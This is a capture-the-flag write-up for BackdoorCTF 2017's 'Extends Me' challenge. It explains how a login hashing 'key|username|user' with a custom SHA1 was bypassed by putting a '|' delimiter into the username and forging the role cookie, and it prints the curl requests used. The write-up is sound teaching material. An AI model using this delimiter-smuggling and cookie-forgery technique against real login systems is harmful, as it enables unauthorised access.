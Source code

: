 ```yaml
---
layout: post
title:  "BackdoorCTF 2017 - Extends Me"
date:   2017-09-24 22:00
categories: [BackdoorCTF2017]
tags: [Web, Crypto]
author: jbz
---
```


The challenge was about gaining access to a web server protected by a login. Crypto/Web 250

The server source code is available [here](https://github.com/jbzteam/CTF/blob/master/BackdoorCTF2017/server.py).

The server was using SLHA1 (a custom version of SHA1 with initial status and round constant slightly changed) to hash the `data` cookie in the following format:
`key|username|user`


`key` is a Secret constant.  
`username` is the user-provided username.  
`user` is the user's role (`user` or `admin`).  
`|` is the `|` character. *This will be useful later.*

The `user` cookie contains the user's role base64-encoded. The server check the role in the following way:
```python
if 'admin' in user: # too lazy to check properly :p
    return "Here you go : CTF{XXXXXXXXXXXXXXXXXXXXXXXXX}"
```

This approach has lots of unintended problem.

First of all, this is the *if* that checks if the data cookie is valid (and the user is authenticated). 
```python
if data != SLHA1(temp).digest():
    temp = SLHA1(temp).digest().encode('base64').strip().replace('\n','')
    # [...]
    resp.set_cookie('data',temp)
```

If the cookie isn't valid the server will take the current user information and make a new hash, making it valid for the next request. (***WAT?***)

Returning to our writeup.  
Another problem that I've immediately noticed was that the server didn't check if `username` contains the `|` character.

So I've made a first request with username `nick|admin`, the server will concatenate `key`, `nick|admin` and `user` (server's defualt role) and the cookie will be `SLHA1("key|nick|admin|user")`  

```
curl --cookie-jar - 'https://extend-me-please.herokuapp.com/login' -H 'Referer: https://extend-me-please.herokuapp.com/login' -H 'Origin: https://extend-me-please.herokuapp.com' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.78 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=nick|admin' --compressed
```

Then I've base64encoded the `admin|user` string.

```python
print("admin|user".encode('base64'))
# YWRtaW58dXNlcg==
```

Finally, a request with username set as `nick` and the user cookie set to `base64(admin|user)`.

The server will concatenate `key`, `nick` and `admin|user` and the SLHA1 hash will correspond.

```
curl --cookie-jar - 'https://extend-me-please.herokuapp.com/login' -H 'Referer: https://extend-me-please.herokuapp.com/login' -H 'Origin: https://extend-me-please.herokuapp.com' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.78 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=nick' --compressed --cookie 'user="YWRtaW58dXNlcg==";data="dwqBEszNafW8LI15fObzONQwD50zbr/Y"'
```


`Here you go : CTF{4lw4y3_u53_hm4c_f0r_4u7h}`

***Clearly***, by looking at the challange name and also at the flag, the intended solution was hash lenght extension. `¯\_(ツ)_/¯`